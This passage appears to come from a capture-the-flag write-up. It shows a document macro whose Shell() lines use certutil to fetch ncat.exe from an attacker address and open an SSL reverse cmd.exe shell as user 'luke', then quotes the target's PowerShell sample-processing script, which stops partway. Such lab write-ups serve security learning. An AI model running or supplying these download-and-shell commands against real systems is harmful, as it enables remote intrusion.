 Shell("certutil.exe -urlcache -split -f 'http://10.10.15.130/ncat.exe' 'C:\Windows\Temp\ncat.exe'")
Shell("C:\Windows\Temp\ncat.exe --ssl -e cmd.exe 10.10.15.130 9001")

Reverse ncat shell as luke
The trick probably was that the macro does not use “cmd.exe” or “powershell.exe”. Instead it just calls programs directly. I had no luck with any cmd or PowerShell payloads.

Malicious RAR file
Discovering the WinRAR vulnerability
In “C:\Users\luke\Documents” I found a file “process_samples.ps1” that seemed to be responsible for processing the uploads:

$process_dir = "C:\Users\luke\Documents\malware_process"
$files_to_analyze = "C:\Users\luke\Documents\ods"
$yara = "C:\Users\luke\Documents\yara64.exe"
$rule = "C:\Users\luke\Documents\ods.yara"

while($true) {
        # Get new samples
        move C:\Users\luke\Documents\malware_dropbox\* $process_dir

        # copy each ods to zip file
        Get-ChildItem $process_dir -Filter *.ods |
        Copy-Item -Destination {$_.fullname -replace ".ods", ".zip"}

        Get-ChildItem $process_dir -Filter *.zip | ForEach-Object {

                # unzip archive to get access to content
                $unzipdir = Join-Path $_.directory $_.Basename
                New-Item -Force -ItemType directory -Path $unzipdir | Out-Null
                Expand-Archive $_.fullname -Force -ErrorAction SilentlyContinue -DestinationPath $unzipdir

                # yara to look for known malware
                $yara_out = & $yara -r $rule $unzipdir
                $ods_name = $_.fullname -replace ".zip", ".ods"
                if ($yara_out.length -gt 0) {
                        Remove-Item $ods_name
                }
        }


        # if any ods files left, make sure they launch, and then archive:
        $files = ls $process_dir\*.ods
        if ( $files.length -gt 0) {
                # launch ods files
                Invoke-Item "C:\Users\luke\Documents\malware_process\*.ods"
                Start-Sleep -s 5
